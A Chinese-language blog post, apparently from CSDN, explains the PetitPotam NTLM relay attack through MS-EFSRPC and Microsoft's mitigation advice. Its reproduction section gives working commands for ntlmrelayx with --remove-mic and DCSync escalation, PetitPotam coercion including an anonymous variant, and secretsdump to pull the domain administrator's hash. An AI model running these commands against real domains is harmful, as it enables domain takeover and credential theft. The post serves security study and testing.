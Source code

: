 ​​​​​​​​​​​​​​2021年7月19日，法国安全研究人员Gilles Lionel披露了一种新型的NTLM Relay攻击利用手法——PetitPotam。该漏洞利用了微软[加密](https://so.csdn.net/so/search?q=%E5%8A%A0%E5%AF%86&spm=1001.2101.3001.7020)文件系统远程协议（MS-EFSRPC，MicroSoft Encrypting File System Remote Protocol）。MS-EFSRPC是 Microsoft 的加密文件系统远程协议，用于对远程存储和通过网络访问的加密数据执行“维护和管理操作”。利用该漏洞，黑客通过连接到LSARPC强制触发目标机器向指定远程服务器发送Net-NTLM Hash，从而攻击者在拿到Net-NTLM Hash后能进行NTLM Relay攻击，进而接管整个域。该漏洞可以用于替代Printerbug。

项目地址：[GitHub - topotam/PetitPotam: PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions.](https://github.com/topotam/PetitPotam "GitHub - topotam/PetitPotam: PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions.")

![](https://img-blog.csdnimg.cn/img_convert/d9a3d530d81c21fc4fa77c31b0051581.png)

虽然禁用对 MS-EFSRPC 的支持并不能阻止攻击运行，但微软随后发布了针对该问题的缓解措施，同时将“PetitPotam”描述为“经典的 NTLM 中继攻击”，它允许匿名(低版本系统)/具有网络访问权限的攻击者拦截合法客户端和服务器之间的身份验证流量，并中继那些经过验证的身份验证请求以访问网络服务。

微软指出：“为了防止在启用了 NTLM 的网络上发生 NTLM 中继攻击，域管理员必须确保允许 NTLM 身份验证的服务使用诸如扩展身份验证保护 (EPA) 或签名功能（如 SMB 签名）之类的保护措施。” 

### 漏洞复现

这里以CVE-2019-1040 NTLM 降级漏洞作为一个演示。

首先使用ntlmrelayx脚本进行监听

```
python3 ntlmrelayx.py --remove-mic --escalate-user hack -t ldap://10.211.55.4 -smb2support
```


*   \--remove-mic选项用于清除MIC标志
*   \--escalate-user用于赋予指定用户dcsync权限

*   \-smb2support 用于支持SMB2协议
*   \-t 将认证凭据中继到指定ldap

![](https://img-blog.csdnimg.cn/img_convert/3ebef447d41a7baeb2f42b59d83a9bf1.png)

然后使用Petitpotam脚本进行攻击，第一个ip是回调的ip，第二个ip是攻击目标的ip。

```
python3 Petitpotam.py -d xie.com -u hack -p P@ss1234 10.211.55.2 10.211.55.5
```


![](https://img-blog.csdnimg.cn/img_convert/b318d391ffae75c253a37667a5ca9346.png)

或者使用exe进行攻击，需要在域内机器上执行该exe

```
PetitPotam.exe 10.211.55.2 10.211.55.5
```


![](https://img-blog.csdnimg.cn/img_convert/1d1816e6a7bf292d885c599fdd6f892e.png)

攻击成功后即可利用。

```
python3 secretsdump.py xie.com/hack:P@ss1234@10.211.55.4 -dc-ip 10.211.55.4 -just-dc-user administrator
```


如下图是攻击前和攻击后，攻击后hack用户即拥有导出域内所有用户哈希的权限。

![](https://img-blog.csdnimg.cn/img_convert/3567e9b545e12b2df8a753dfe4c36eec.png)

注：对于Windows Server2016以下的机器，可以匿名进行攻击。

```
python3 Petitpotam.py -d '' -u '' -p '' 10.211.55.2 10.211.55.5
```


  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关文章：[微软分享缓解PetitPotam NTML中继攻击的方法](https://new.qq.com/omn/20210726/20210726A04ZCV00.html "微软分享缓解PetitPotam NTML中继攻击的方法")

[【安全研究】使用PetitPotam代替Printerbug](https://mp.weixin.qq.com/s/jtHJZUZpDVHa-P7NjwhhYQ "【安全研究】使用PetitPotam代替Printerbug")
